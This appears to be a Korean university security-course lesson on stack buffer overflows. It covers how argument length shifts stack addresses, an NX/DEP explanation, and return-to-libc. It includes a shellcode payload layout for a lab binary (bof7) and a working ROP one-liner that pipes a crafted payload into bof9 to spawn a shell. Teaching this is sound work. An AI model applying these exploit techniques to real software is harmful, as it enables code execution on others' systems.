



# 익스플로잇(3)

## bof7 논란

**__일단 bof7 자체에는 아무런 오류도 없었음.__**

### 사전 지식 : 전달되는 `main` 함수 인자의 길이에 따라서 `buf` 의 주소값이 달라진다. 



왜 달라질까? 다음과 같은 간단한 C 프로그램으로 테스트를 해보자. 

```c
#include <stdio.h>
#include <stdlib.h>

#define RED     "\033[31m"
#define GREEN   "\033[32m"
#define BLUE    "\033[34;1m"
#define RESET   "\033[0m"

int main(int argc, char * argv[]){
    if (argc < 2) {
        fputs(RED "Please pass some arguments...\n" RESET , stderr);
        return 1;
    }
    int stack = 78;
    int stack2 = 23;
    char * environment_variable = getenv("PATH");

    printf( GREEN "Stack section " RESET " : " BLUE "%p\n", &stack);
    printf( GREEN "              " RESET " : " BLUE "%p\n", &stack2);
    printf( GREEN "Main arg-argc " RESET " : " BLUE "%p\n", &argc);
    printf( GREEN "     arg-argv " RESET " : " BLUE "%p\n", argv);
    printf( GREEN "     argv[1]  " RESET " : " BLUE "%p\n", argv[1]);
    printf( GREEN "Environment   " RESET " : " BLUE "%p\n", environment_variable);
    printf(RESET "All of these are Virtual Address\n\n");
    return 0;
}
```

테스트는 각각 짧은 인자를 전달할 경우, 긴 인자를 전달할 경우 스택의 주소값이 어떻게 바뀌는지 관찰하는 것으로 진행하자. 그 결과는 다음과 같았다. 


인자를 `a` 만 전달했을 경우 `argv[1]` 의 주소값은 `0x7fffffffe75a` 이고 스택 영역의 두 변수의 주소값은 각각 `0x7fffffffe3b0` 과 `0x7fffffffe3b4` 였다.

그런데 인자를 `aaaaaaaaaaaaaa` 로 좀 더 많이 전달했을 때 `argv[1]` 의 주소값은 `0x7fffffffe74e` 이고 스택 영역의 두 변수의 주소값은 각각 `0x7fffffffe3a0` 과 `0x7fffffffe3a4` 가 되었다. 

즉 `main` 함수에 전달된 인자가 길 경우 `argv[1]` 의 주소값과 스택영역의 주소들이 좀 더 밑으로 내려 온다. 프로세스에 할당되는 메모리 구조를 다시 떠올려보자. 


`main` 함수에 할당되는 인자는 위 그림에서 스택 바로 위쪽에 있는 `argv` 의 위치에 들어가는데 인자가 클 경우 메모리를 좀 더 사용해서 스택 영역을 더 밑으로 내려가게 만든다고 볼 수 있다. 

### bof7 의 buf 의 주소값이 인자의 길이에 따라 달라진다 


위와 같이 인자로 `a` 를 10 개 전달했을 때와 `a` 를 20 개 전달했을 때 `buf` 의 주소값이 각각 `0x7fffffffe490` 과 `0x7fffffffe480` 으로 달라진다. 이제는 그 이유를 이해할 수 있다. 인자가 더 길 경우에 스택 영역이 메모리에서 더 밑으로 위치하기 때문에 메모리 주소값이 더 낮아진다. 

그런데 우리는 `buf` 와 `return address` 까지의 거리가 **136** 이라는 것을 이미 알아냈고 그 이후에 **8** 바이트 주소값을 덮어써야 하는 상황이다. 그러므로 결론적으로 bof7 을 익스플로잇 하기 위하여 전달해야 할 인자의 길이는 **144** 바이트이다. 따라서 먼저 **144** 바이트 인자를 전달해 보고 그때 당시의 `buf` 의 주소값을 알아내야 한다. 



그러면 위와 같이 `buf` 의 주소값이 `0x7fffffffe410` 이라는 것을 알 수 있다. 즉 인자의 길이가 **144 바이트 일 때** `buf` 의 주소가 그렇게 위치한다는 것이다. 따라서 이 주소로 리턴 어드레스를 덮어써야 한다. 

### 익스플로잇

페이로드를 생각해보면 다음과 같이 될 것이다. 

| 쉘 코드 | 쓰레기 값 | 리턴 어드레스 | **총** |
|:----------:|:------:|:----:|:-----:|
| 27 바이트| 109 바이트 | 8 바이트   | **144 바이트** |

그렇게 페이로드를 설정하고 익스플로잇을 시도해보자. 



먼저 위와 같이 **144** 바이트를 때려 넣어서 인자가 **144** 바이트일 때 `buf` 의 주소값을 확인하다. 그러고 나서 `쉘 코드 + 쓰레기 값 + 리턴 주소값` 으로 익스플로잇을 시도하는데 이때의 리턴 주소값은 방금 확인한 `buf` 의 주소값으로 설정하면 된다. 

## NX bit 또는 DEP

우리는 지금까지 실행권한이 있는 스택에서 쉘 코드를 삽입하여 BOF 로 해킹을 해보았다. 하지만 현대의 대부분의 프로그램은 스택에서 실행권한을 제거한다.  

```c
#include <unistd.h>

int main(void){
    pause();
    return 0;
}
```

위와 같은 매우 간단한 C 프로그램을 만들고 종료되지 않도록 pause() 함수를 사용해보자. 

```shell
gcc test.c
./a.out
```

그리고 컴파일 한 후 실행하자. 

```shell
ps -ef | grep a.out
cat /proc/2464/maps
```

프로세스 번호를 확인하고, 만약 PID 가 2464 라면, 위와 같이 메모리 매핑을 확인하자. 

```shell
555555554000-555555555000 r-xp 00000000 ca:01 256165                     /home/ubuntu/a.out
555555754000-555555755000 r--p 00000000 ca:01 256165                     /home/ubuntu/a.out
555555755000-555555756000 rw-p 00001000 ca:01 256165                     /home/ubuntu/a.out
...
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

그러면 위와 같이 [stack] 의 권한이 `rw-p` 라고 되어있는 것을 볼 수 있다. 반면 가장 낮은 주소에 있는 text 섹션에는 `r-xp` 의 권한이 부여되었다. 스택 영역에는 읽기(`r`) 권한과 쓰기(`w`) 권한만 있는데 비해 실행될 어셈블리어들이 저장되는 텍스트 섹션에는 읽기(`r`) 권한과 실행(`x`) 권한만 존재한다. 

지금까지 BOF 를 연습했었던 프로그램은 `gcc` 에 특수한 옵션(`z execstack`)으로 컴파일해서 스택에 실행권한을 부여했었던 프로그램들이다. 하지만 보통의 프로그램들은 해커들이 스택에 쉘 코드를 삽입해서 해킹을 할 수도 있기 때문에 실행권한이 필요없는 스택 영역에는 실행권한을 제거한다. 

이렇게 실행권한이 제거된 메모리를 절대 실행되지 않는다는 의미로 Never eXecution 한다고 해서 NX 비트라고 한다. 그리고 이 NX 를 윈도우 운영체제에서는 DEP (Data Execution Prevention) 라고 부른다. 이제부터 이 NX 비트를 우회해서 프로그램을 해킹해보자. 

## RTL (Return to Libc)

https://www.lazenca.net/display/TEC/02.RTL%28Return+to+Libc%29+-+x64

## bof9.c 

1. 버퍼와 리턴 어드레스까지의 거리를 구한다. 

    ```shell
    pwndbg> i r rsp      # AT STARTING VULN FUNCTION
         rsp : 0x7fffffffe628
    pwndbg> nextcall     # UNTIL gets FUNCTION
    pwndbg> i r rdi      # CHECK FIRST ARGUMENT of gets FUNCTION
         rdi : 0x7fffffffe610
    pwndbg> p/d 0x7fffffffe628 - 0x7fffffffe610
         $2 = 24
    ```

2. `system` 함수의 주소값을 찾는다.
    
    ```shell
    pwndbg> p system
         $1 = ... 0x7ffff7a52390 <__libc_system>
    ```
3. `/bin/sh` 문자열의 주소값을 찾는다.

    ```shell
    pwndbg> search /bin/sh
         libc-2.23.so    0x7ffff7b99d57 /* '/bin/sh' */
    ```

4. `pop rdi ; ret` 가젯의 주소값을 찾는다.

    ```shell
    $ ldd bof9           # CHECK library used by bof9
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
         0x0000000000021102 : pop rdi ; ret

    pwndbg> vmmap
        0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    pwndbg> p/x 0x0000000000021102 + 0x7ffff7a0d000
        $1 = 0x7ffff7a2e102
    ```

5. payload 를 다음과 같이 제작한다.

    `'A' * (버퍼와 리턴 어드레스까지의 거리)[N 바이트] + (pop rdi ; ret 가젯의 주소)[8 바이트] + (/bin/sh 문자열 주소)[8 바이트] + (system 함수의 주소)[8 바이트]`
    
    ```shell
    payload : [dummy (24)] + ["pop rdi ; ret" (8)] + ["/bin/sh" (8)] + [system (8)]
            $ (python -c "print 'x'*24+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
    ```

---

## 과제 

### 과제 가이드 

1. [HW-8.md](HW-8/HW-8.md) 파일의 지시를 따르는 것이 과제이다. (발표를 하며 설명을 할 수 있어야 합니다)

2. 과제 파일은 [HW-8](HW-8) 디렉토리에 만들어야 한다. 

3. 과제 파일이 완성되면 다음 명령어를 참고하여 완성된 과제를 푸쉬한다. 

```shell
cd /path/to/security
git add .
git commit -m "complete HW-8"
git push -u origin master
```

4. 마지막으로 `pull requests` 를 한다. 
